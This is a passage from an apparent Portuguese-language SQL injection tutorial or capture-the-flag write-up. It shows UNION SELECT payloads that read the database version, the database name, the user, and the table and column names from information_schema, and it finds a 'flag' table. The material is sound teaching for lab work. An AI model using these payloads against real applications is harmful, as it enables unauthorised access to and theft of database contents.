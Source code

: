 Isso vai "juntar" um novo resultado à consulta original, com valores `1` e `2` nas colunas correspondentes.

### Exemplo de ataque direto:

```sql
' UNION SELECT 1,2,3,4;# 
```

Com isso, ele força o banco a retornar um **novo "produto falso"** com os valores `1`, `2`, `3`, `4`.

### Agora vamos explorar a vulnerabilidade...

Sabendo que a **coluna 2** exibe o nome do produto (ou outro campo visível), o atacante pode extrair informações do sistema:

```sql
' UNION SELECT 1, @@version, 3, 4;#     -- versão do banco
' UNION SELECT 1, database(), 3, 4;#    -- nome do banco atual
' UNION SELECT 1, user(), 3, 4;#        -- usuário do banco
```

Essas informações são **sensíveis** e ajudam o atacante a mapear o ambiente.

---

## Fase 3: Explorando a estrutura do banco

### Descobrindo tabelas dentro do banco:

```sql
' UNION SELECT 1, table_name, 3, 4 
FROM information_schema.tables 
WHERE table_schema = 'cs';#
```

Suponha que ele descobre duas tabelas:

- `products`
    
- `flag`
    

### Descobrindo colunas da tabela `products`:

```sql
' UNION SELECT 1, column_name, 3, 4 
FROM information_schema.columns 
WHERE table_name = 'products';#
```

Retorno:

```
products → ID, NAME, DESCRIPTION, PRICE
```
